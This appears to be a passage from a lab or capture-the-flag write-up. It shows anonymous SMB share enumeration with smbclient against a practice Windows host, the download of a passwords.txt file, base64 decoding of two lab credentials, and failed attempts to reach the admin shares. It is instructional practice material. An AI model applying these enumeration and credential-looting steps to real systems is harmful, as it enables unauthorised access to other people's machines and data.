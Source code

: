 I start out looking to see what shares are available via SMB:

`smbclient -N -L //10.10.172.197`

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
nt4wrksv        Disk
```

**nt4wrksv** seems like a good place to start let's see what's inside:

`smbclient -N \\\\10.10.172.197\\nt4wrksv`

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 5138806 blocks available
```

Looks promising! Let's download it and take a look inside:

`get passwords.txt`

```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Those look like base64 so I decode them:

`echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d`

```
Bob - !P@$$W0rD!123
```

`echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d`

```
Bill - Juw4nnaM4n420696969!$$$
```

I login with both Bob and Bill to see if anything new shows up:

`smbclient \\\\10.10.36.80\\nt4wrksv -U Bob`

`smbclient \\\\10.10.36.80\\nt4wrksv -U Bill`

But it's still just the **password.txt** file from earlier.

They also can't access anything in the **ADMIN$** or **C$** shares:

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```
